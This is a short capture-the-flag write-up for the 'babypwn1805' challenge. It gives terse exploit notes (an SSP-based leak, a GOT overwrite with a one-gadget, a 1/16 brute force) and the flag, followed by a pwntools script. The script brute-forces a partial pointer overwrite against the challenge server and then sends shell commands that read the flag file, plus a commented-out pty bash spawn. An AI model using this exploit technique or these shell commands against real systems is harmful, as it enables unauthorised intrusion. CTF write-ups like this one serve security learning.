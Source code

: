 ### babypwn1805 - pwn
* Overwrite the pointer of program name, and trigger `SSP` -> leak information.
* Get serveral `libc`.
* Overwite `GOT read` with `onegadget` -> with probability 1/16 (correct libc).
* `/opt/ctf/babypwn/home/flag`.
* `OOO{to_know_the_libc_you_must_become_the_libc}`
```python
#!/usr/bin/env python
from pwn import *
import sys
import struct
import hashlib
import random
from threading import Timer

# OOO{to_know_the_libc_you_must_become_the_libc}

def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()

def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1


def hit():
    cmd = 'id;LD_PRELOAD='';'
    cmd += 'cat /opt/ctf/babypwn/home/flag;'
    cmd += 'ls -al /opt/ctf/babypwn/home/;'
    cmd += 'source /opt/ctf/babypwn/flag.txt 2>&1;'
    #cmd += 'python -c \'import pty; pty.spawn("/bin/bash")\''
    y.sendline( cmd )
    print y.recv( 2048 )


host , port = 'e4771e24.quals2018.oooverflow.io' , 31337
y = remote( host , port )

y.recvuntil( ': ' )
challenge = y.recvline().strip()
y.recvuntil( ': ' )
n = int( y.recvline() )
y.sendlineafter( ':' , str( solve_pow(challenge, n) ) )

success( 'Go' )

t = 0.3
y.recvuntil( 'Go\n' )

for i in xrange( 0x10000 ):
    y.send( p64( 0xffffffffffffffc8 ) )
    p = 0xae77
    y.send( p16( p ) )
    t = Timer(1.0, hit)
    t.start()
    y.recvuntil( 'Go' , timeout=1 )
    t.cancel()
```